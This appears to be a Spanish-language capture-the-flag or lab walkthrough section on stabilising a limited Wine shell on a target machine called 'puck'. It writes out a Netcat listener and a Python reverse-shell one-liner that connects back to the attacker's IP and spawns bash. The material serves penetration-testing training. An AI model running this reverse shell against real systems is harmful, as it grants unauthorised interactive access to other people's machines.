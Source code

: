 <p></p><p>### Bloque Markdown: Fase 2 (Estabilización de Shell)</p><p>```markdown</p><p>## Fase 2: Estabilización de la Shell</p><p>**Objetivo:** Transformar el acceso inicial limitado en una shell interactiva y funcional, una etapa crucial para poder ejecutar comandos complejos de enumeración y escalada.</p><p>### 1. Diagnóstico de la Shell Limitada</p><p>- La shell obtenida tras la explotación inicial <code>Z:\&gt;</code>) era un intérprete de comandos de bajo nivel proporcionado por el entorno de compatibilidad **Wine**.</p><p>- Esta shell demostró ser muy restrictiva:</p><p>- No reconocía comandos básicos de Linux como <code>ls</code>, <code>whoami</code> o <code>sudo</code>.</p><p>- No tenía una variable de <code>PATH</code> configurada, lo que obligaba a usar rutas completas para ejecutar binarios (ej. <code>/usr/bin/python</code>).</p><p>- Era incapaz de iniciar un TTY interactivo estándar con <code>pty.spawn()</code> directamente desde la línea de comandos, devolviendo errores de sintaxis o fallando silenciosamente.</p><p>- Estas limitaciones hacían imposible la ejecución de comandos de enumeración esenciales como <code>sudo -l</code>, bloqueando el progreso hacia la escalada de privilegios.</p><p>### 2. Creación de una Reverse Shell para la Estabilización</p><p>- Dado que los métodos para "mejorar" la shell actual fallaron, se adoptó la táctica profesional de forzar a la víctima a conectarse de vuelta a nosotros, entregando una shell superior.</p><p>- Se sabía que el binario <code>/usr/bin/python</code> estaba disponible y era funcional en la máquina víctima.</p><p>- **Proceso de Estabilización:**</p><p>1. Se preparó un listener **Netcat** en la máquina de ataque (Kali) para recibir la nueva conexión en el puerto <code>4444</code>.</p><p>```bash</p><p>nc -lvnp 4444</p><p>```</p><p>2. Desde la shell limitada de la víctima, se utilizó el comando <code>echo</code> para escribir un script de **reverse shell** de Python directamente en un directorio con permisos de escritura <code>/tmp/</code>).</p><p>```bash</p><p>echo 'import socket,os,pty;s=socket.socket();s.connect(("192.168.114.131",4444));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("/bin/bash")' &gt; /tmp/get_<a target="_blank" rel="noopener noreferrer nofollow" href="http://shell.py">shell.py</a></p><p>```</p><p>3. Finalmente, se ordenó a la víctima que ejecutara este script usando la ruta completa de Python:</p><p>```bash</p><p>/usr/bin/python /tmp/get_<a target="_blank" rel="noopener noreferrer nofollow" href="http://shell.py">shell.py</a></p><p>```</p><p>- **Resultado:** La máquina víctima se conectó de vuelta al listener de Netcat, y se obtuvo una **shell <code>bash</code> de Linux completamente interactiva y funcional**, como el usuario *<code>puck</code>**. Esto desbloqueó la capacidad de usar todo el conjunto de herramientas del sistema operativo.</p><p>```</p><p></p>

---

## User Flag
